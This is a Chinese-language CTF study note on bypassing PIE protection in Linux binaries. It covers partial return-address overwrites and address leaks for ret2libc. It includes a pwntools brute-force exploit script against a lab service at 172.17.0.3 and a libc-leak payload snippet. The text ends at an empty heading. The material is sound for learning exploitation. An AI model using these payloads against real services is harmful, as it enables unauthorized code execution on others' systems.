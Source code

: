 ## 保护介绍：
PIE 保护就是通过一些设置，使得我们每一次打开我们的程序文件时，我们的程序文件对应的都是不一样的。这个是针对我们的代码段，和我们的数据段，bss 段的一种保护措施。应用了 PIE 的程序会在每次加载时都变换加载的基地址。
我们可以把我们的 PIE 理解为一种特殊的 libc 来处理即可。
与之相对的是我们的 ASLR 技术，这种技术

![[Pasted image 20240119145603.png]]



## 对 PIE 进行调试
```
b *rebase(0x1234)
```


## 部分修改绕过
原理：因为内存的页载入机制，PIE 的随机化只会影响到我们的单个内存页。通常来说，一个内存页大小为 `0x1000`,这就意味着不管地址怎么变，某条指令的后 12 位，3 个 16 进制数的地址是始终不变的。
因此通过覆盖 EIP 的后 8 或 16 位，就可以快速爆破或者直接劫持 EIP。

这里，我们需要现在我们的静态文件中找到我们的对应的末三位是多少，然后我们覆盖我们的地址是，注意**只用覆盖我们的末三位就能实现我们的功能了**。

步骤一：找到我们后门函数的后三位是多少
步骤二：构造我们的 payload ，使得我们的返回地址是我们的后门函数。

```python
from pwn import *
context.update(arch = 'amd64', os = 'linux')
i = 0
while True:
i += 1
print i
io = remote("172.17.0.3", 10001)
io.recv()
payload = 'a'*40 #padding
payload += '\xca' #修改长度为202，即payload的长
度，这个参数会在其后的strncpy被使用
io.sendline(payload)
io.recv()
payload = 'a'*200 #padding
payload += '\x01\xa9' #frontdoor的地址后三位是0x900, +1
跳过push rbp
io.sendline(payload)
io.recv()
try:
io.recv(timeout = 1) #要么崩溃要么爆破成功，若崩溃io会
关闭，io.recv()会触发EOFError
except EOFError:
io.close()
continue
else:
sleep(0.1)
```

## 内存泄漏法绕过
对于我们的这种一般的方法，我们的思路都是：通过我们的栈溢出或者我们的 printf 函数来**泄漏我们的部分信息**。

这里，我们可以根据我们需要泄露的信息与我们的原地址的大小之间的差来进行分类：
1. 如果地址的差距只限于我们的两个字节：
我们就可以通过我们的前面的部分修改法来绕过我们的目标位置。这里，我们一般可以考虑从我们的**寄存器中找我们需要泄露的信息**。这里是因为，我们如果使用的是一个 [[格式化字符串]] 漏洞的话，他就会打印我们的**寄存器中的信息**。而在这里，我们的修改可以认为是修改了我们的 PC 的地址。

一般来说，如果一个地址是我们的 libc 的的地址，那么他的末尾一定会有我们的：`__libc_start_call_main` 这样的字段或者说以我们的以我们的红色字结尾。





```python
payload=b'a'*10+p8(0x57)
libc_base=l64()-libc.sym['func']
system,binsh=get_sb()
```

2. 如果地址的差距大于我们的两个字节：
我们就需要通过我们的暴力破解法或者我们的其他方法来泄露我们的地址。例如：；
```cpp
0x000055da62bld266
0x000055da62bldlf5
```
当中，我们有三位有变化，而我们如果要修改，只能修改我们的 2 的倍数次，于是我们就需要通过我们的爆破来获得我们的最高位应该修改为多少。而我们修改的位置，我们可以**理解为修改了我们的一个 `PC` 的数据**。

泄露完成后，我们还需要去执行我们的漏洞函数，以再次使用我们的漏洞。

第二步：正常执行我们的 systemcall 或者 retlibc 即可
**如果我们需要用到我们的 rop 链，我们的地址应该从我们的 libc 文件中去找，不能从我们的原文件中去找**


## 爆破地址法